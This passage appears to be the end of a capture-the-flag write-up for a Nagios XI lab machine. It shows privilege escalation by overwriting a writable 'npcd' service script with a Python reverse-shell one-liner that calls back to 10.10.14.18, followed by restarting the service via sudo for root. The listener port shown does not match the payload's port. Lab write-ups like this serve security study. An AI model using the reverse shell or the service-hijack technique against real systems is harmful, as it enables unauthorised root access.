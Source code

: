 ```
sudo /usr/local/nagiosxi/scripts/manage_services.sh status shellinaboxd
```

`Loaded: loaded (/etc/init.d/shellinabox; generated) `

It gave me a directory. When I went to that directory, I found that most of the services listed in the script are in there with it. Unfortunately, I have write access to none of them. However, there are two that aren't listed in the `init.d` directory; `npcd` and `nbo2db`. That's not super interesting on it's own, but it is pretty interesting that I have write permissions on `npcd`! To make things even more interesting, I have access to `vi` on this box. I deleted the old script, and made a new one containing a python reverse shell.

```
vi npcd
```

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.18",6969));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```

I then made the file executable:

```
chmod +x npcd
```

Started a listener:

```
nc -nvlp 4444
```

"Stopped" the process that was previously running:

```
sudo /usr/local/nagiosxi/scripts/manage_services.sh stop npcd
```

and finally, started the new and improved npcd:

```
sudo /usr/local/nagiosxi/scripts/manage_services.sh start npcd
```

Now that I had root access, I claimed my flag and finished the box. This box required a multi-faceted approach involving fuzzing, SNMP enumeration, API exploitation, and privilege escalation via writable service scripts. Understanding how each service interacted with the system was crucial in chaining the exploits together for root access. Overall I think this was one of my favorite boxes, and I hope to see more like it soon!